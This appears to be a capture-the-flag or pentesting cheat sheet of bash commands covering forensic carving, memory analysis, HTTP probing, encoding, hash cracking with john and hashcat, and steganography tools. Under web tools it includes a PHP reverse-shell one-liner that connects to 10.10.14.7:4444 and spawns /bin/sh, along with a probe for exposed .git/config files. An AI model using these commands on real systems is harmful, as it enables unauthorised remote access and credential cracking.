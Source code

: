 ```bash
# Inspecting files
hexdump -C file | less
xxd file | less
binwalk -e firmware.bin        # carve files
foremost -i image.dd -o output # carve by headers
scalpel image.dd -o carved     # another carver
volatility -f mem.dump --profile=Linux... pslist  # memory analysis (depends on kernel)
strings -a file | less
```

---

## 🌐 Web / HTTP tools

```bash
# curl
curl -s -I http://target
curl -s -X POST -d "key=v" http://target
# Burp / proxy
export http_proxy=http://127.0.0.1:8080
export https_proxy=http://127.0.0.1:8080
# PHP reverse shell
php -r '$sock=fsockopen("10.10.14.7",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
# Common files
wget -qO- http://target/.git/config
```

---

## 🔐 Crypto & encoding utilities

```bash
# encodings
echo 'dGVzdA==' | base64 -d        # base64 decode
echo -n 'test' | md5sum
openssl enc -aes-256-cbc -d -in file.enc -pass pass:password
# Hash cracking
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt
# ASN1 / cert
openssl x509 -in cert.pem -text -noout
```

---

## 🖼️ Stego & data carving

```bash
# stegsolve (java GUI)
# stegdetect
strings image.png | less
exiftool image.jpg
binwalk -e image.png
zsteg image.png                 # PNG LSB stego
steghide extract -sf image.jpg  # if password known: -p pass
```

---
